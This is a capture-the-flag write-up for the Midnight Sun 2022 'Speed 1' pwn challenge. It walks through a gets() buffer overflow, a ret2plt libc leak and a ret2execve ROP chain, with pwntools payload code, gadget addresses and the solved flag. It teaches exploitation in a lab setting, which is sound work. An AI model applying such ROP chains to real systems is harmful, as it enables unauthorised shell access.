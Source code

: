 Midnight Sun CTF Quals 2022 - Speed 1 (PWN)
==

We are given a 64 bits binary with it's libc, with the following protections :

![](https://i.imgur.com/Nei6IxH.png)

No canary, no PIE (Position Independent Executable) and NX enable with a Partial RELRO.

The decompiled main function is the following : 

```c
int main(void)
{
    char buffer [32];
  
    setvbuf(stdin,(char *)0x0,2,0);
    setvbuf(stdout,(char *)0x0,2,0);
    alarm(0x3c);
    print_banner();
    printf("b0fz: ");
    gets(buffer);
    return 0;
}
```

There a call to gets() function which is vulnerable to buffer overflow because it doesn't check the size of input.

So it's clear that the vulnerability to exploit is a buffer overflow.

# ret2plt

We are going to make a **ret2plt** to leak the address of a libc function, in our case puts, the we'll return at the beginning of the program and make our ropchain.

First stage will be to leak puts address in libc, so we're going to put in **RDI** (argument to puts) the address puts in **GOT** then call puts in **PLT**. After this we'll jump back to the beginning of **main()**.

But we first need to patch our binary with **pwninit** so the binary will use the libc given. Just launch the following command : 

```sh
pwninit --bin speed1 --libc libc.so.6
```

Now we can begin our exploit. So to overwrite **RIP** we need a padding of 40, 32 to fill the buffer, 8 to overwrite **RBP**. So let's build the first stage : 

```py
PADDING = b'A'*40
POP_RDI = 0x4012b3
POP_RSI = 0x4012b1
BIN_SH  = 0x1b45bd
MAIN    = 0x4011cf

first_stage = flat(
        PADDING,
        p64(POP_RDI),
        p64(elf.got.puts),
        p64(elf.plt.puts),
        p64(MAIN)
    )
```

So now the binary will leak the address of puts in libc and we can parse it and get libc base like that for example : 

```py
puts_leak = int(bytes.hex(r.recv()[0:6][::-1]), 16)
libc.address = puts_leak - libc.symbols.puts
```

# ret2execve

Now comes to part where I blocked for some minutes because I first tried to make a **ret2libc** with a call to **system** but unfortunately it hasn't worked for me at first try. So I didn't bother with it and try something I never tried. And I guess we can call this "technique" a **ret2execve**.

So we take a look an the arguments that takes **execve()** syscall.

![](https://i.imgur.com/lJZjHfT.png)
![](https://i.imgur.com/hjgfOC5.png)

So our command is stored in **RDI**. By making a **POP RDI** we can put our string **/bin/sh**. But we can see that the syscall has an **argv** to a random value in libc : 

![](https://i.imgur.com/2lx87SI.png)

So we need to set **RSI** to 0 then our call is equivalent to **execve("/bin/sh", NULL, NULL)**. So we are lucky there's a gadget which makes a **POP RSI** ; **POP R15**. So now we just need to build our second stage payload : 

```py
second_stage = flat(
        PADDING,
        p64(POP_RDI),
        p64(libc.address + BIN_SH),
        p64(POP_RSI),
        p64(0x0),
        p64(0x0),
        p64(execve),
        p64(exit_func)
    )
```

Now, we can launch the [exploit](https://github.com/expressitoo/Cybersecurity/blob/main/Midnight%20Sun%20CTF%20Quals%202022/Speed1/files/exploit.py), get a shell and get the flag : 

![](https://i.imgur.com/Zy8yDzl.png)

Flag : **`midnight{b3ee4fd1e8b331a237b234395d1ad0a0}`**
